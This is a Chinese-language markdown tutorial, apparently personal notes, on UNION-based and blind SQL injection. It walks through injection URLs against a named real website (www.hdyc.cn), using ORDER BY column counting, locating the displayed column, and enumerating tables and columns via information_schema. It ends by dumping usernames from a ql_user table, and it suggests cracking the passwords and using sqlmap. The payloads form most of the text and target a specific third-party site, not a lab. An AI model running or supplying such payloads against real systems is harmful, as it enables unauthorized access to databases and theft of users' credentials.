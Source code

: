 注入过程:http://www.hdyc.cn/newslist.php?cd=2’

#### 1.判断是否是字符类型还是整型:

末尾加上 ' ,如果失败说明是整型，否则是字符型。

### 2.判断是否有注入点:http://www.hdyc.cn/newslist.php?cd=2 and 1=1

如果成功查询，说明有注入点。

### 3.查询出有多少列（通过order by后面加数字，如果出现错误则为最大长度）

http://www.hdyc.cn/newslist.php?cd=2 order by 6

### 4.知道了列数，那么就可以进行**UNION**合并(必须列数相同)，查出显位(即哪一列的数据显示在页面上)

http://www.hdyc.cn/newslist.php?cd=2 and 1= 2 union select 1,2,3,4,5,6

语义:and 1=2 直接否定了前面所有条件，后面合并 select 1,2,3,4,5,6（因为我们知道了有6列）

这就相当于，一张空表然后加上 1,2,3,4,5,6 ,最后显示到页面上有哪些数字，说明有哪些列是直接显示的。

显位: 2 （所以后面查询的数据都只能显示到2列位上）

![image-20200210155828145](C:\Users\12714\AppData\Roaming\Typora\typora-user-images\image-20200210155828145.png)

### 5.查出当前库名: database（）函数显示当前库名

http://www.hdyc.cn/newslist.php?cd=2 and 1= 2 union select 1,database(),3,4,5,6

![image-20200210160701224](C:\Users\12714\AppData\Roaming\Typora\typora-user-images\image-20200210160701224.png)

### 5.查出第一张表:

在数据库中存在某个information_schema库，当中存了表的集合，列的集合等.....

information_schema.tables表

table_schema ：库名

table_name : 表名

information_schema.columns 表

column_name ： 列名

http://www.hdyc.cn/newslist.php?cd=2 and 1=2 union select 1,table_name,3,4,5,6 from information_schema.tables where table_schema=database() limit 1,1

### 6.查出所有表名:使用group_concat(列名)，查出所有该列数值

http://www.hdyc.cn/newslist.php?cd=2 and 1=2 union select 1,group_concat(table_name),3,4,5,6 from information_schema.tables where table_schema='database()

### 7.查出某个表(ql_user）之前已经查出)中所有字段：

http://www.hdyc.cn/newslist.php?cd=2 and 1=2 union select 1,group_concat(column_name),3,4,5,6 from information_schema.columns where table_schema='db_hdyc_cn_1' and table_name='ql_user'

得到属性**userid,username**。

![image-20200210153745664](C:\Users\12714\AppData\Roaming\Typora\typora-user-images\image-20200210153745664.png)

查询出用户名和密码

http://www.hdyc.cn/newslist.php?cd=2 and 1=2 union select 1,group_concat(username),3,4,5,6 from ql_user

![image-20200210154604195](C:\Users\12714\AppData\Roaming\Typora\typora-user-images\image-20200210154604195.png)



然后根据用户名查询出相应的密码。然后进行解密即可。



**查询中也经常使用就是order by num这种方式，它的使用就是省略了字段名称直接使用num数字来代替相应位置的字段名称**(用于查询不知道列名时)

2.

**UNION**和**UNION ALL**（要求：两次查询的列数必须一致）

**UNION**：合并两个select结果集，去重复。（由于需要进行排序去重，所以效率低下）

**UNION ALL**：合并两个select结果集，不去重。(如果是两个必然不会重复的结果集建议使用)



### 总结：总的来说就是1.判断是字符还是整型2.进行and 1=1判断是否有注入点.3.有了注入点就可以进行注入，使用order by查询总列数。4.根据列数查看显位。5.在显位上显示当前库名6.根据information_schema.tables表查询当前库的所有表(因为该表中存放了所有库的表)7.查询需要表的所有列名，需要使用到表名information_schema.columns。8.然后就可以用户名，密码查出来了。

## 二、sql盲注

因为是盲注，所以数据库不会反回任何提示信息。所以显位，orderby是没用的。

所以所有消息只能靠猜，像database()都显示不了。

1.猜数据库名

虽然不能显示但是可以一个个猜，首先猜长度 and length(database()) = 4,一个个试就可以猜出来了。

然后通过分割字符窜一个个比较字符，猜出数据库名。

2.猜列名，表名

原理一样，知道了库名，使用information_schema表可以跟上面一样通过分解字符串一个个猜。得到表名和列名

### 所以一般情况都要使用工具 sqlmap ，椰树等....